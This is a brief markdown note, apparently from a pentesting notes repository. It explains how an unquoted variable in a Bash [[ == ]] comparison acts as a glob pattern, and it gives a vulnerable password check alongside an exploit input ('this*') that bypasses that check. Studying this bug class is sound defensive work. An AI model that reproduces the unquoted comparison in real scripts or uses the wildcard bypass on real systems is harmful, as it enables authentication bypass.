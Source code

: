 ## Bash Escape / Exploit

### Summary
- Bash Comparison

### Bash Comparison
- **=** and **==** are for string comparisons
- **-eq** are for numeric comparisons\
**Vulnerable Code**
``` bash
DB_PASS="thisisdbpass"; => Just for example, it's should be REDACTED
USER_PASS="i_dont_know_what_is_db_pass"

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```
The result of that will be "Failed" because DB_PASS and USER_PASS does not match!\
**Exploit**
``` bash
DB_PASS="thisisdbpass"; => Just for example, it's should be REDACTED
USER_PASS="this*" => asterisk character (*) it acts as a wildcard and matches any part of the string.

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi
```